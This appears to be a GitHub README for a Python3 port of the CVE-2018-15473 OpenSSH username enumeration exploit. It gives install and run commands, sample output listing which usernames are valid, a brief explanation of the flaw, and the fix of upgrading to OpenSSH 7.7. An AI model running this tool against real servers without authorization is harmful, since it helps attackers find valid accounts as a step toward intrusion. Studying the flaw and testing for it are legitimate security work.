 ## CVE-2018-15473


**SSH-Username-Enumeration-Exploit (OpenSSH 2.3 < 7.7)**

Edited version of the original exploit: [https://www.exploit-db.com/exploits/45233](https://www.exploit-db.com/exploits/45233)

- Converted to Python3
- Added username wordlist option

## How To Run


```shell
#Ensure that you install the requirements:
foo@bar:~$ pip3 install -r requirements.txt
```

```shell
#For single username:
foo@bar:~$ ./openssh77.py 0.0.0.0 -u root
[+] root is a valid username
```

```shell
#For multiple username:
foo@bar:~$ ./openssh77.py 0.0.0.0 -w username_wordlist.txt
[+] root is a valid username
[-] mysql is an invalid username
[-] mike is an invalid username
[-] foo is an invalid username
[-] bar is an invalid username
Valid Users: 
root
```

```shell
#For more option:
foo@bar:~$ ./openssh77.py -h
```

## About the Vulnerability:


The system responds differently to valid and invalid authentication attempts. A remote user can send specially crafted requests to determine valid usernames on the target system. Thus, a remote user can determine valid usernames on the target system.

## Solution:


OpenSSH server should be upgraded to, or higher than, version 7.7
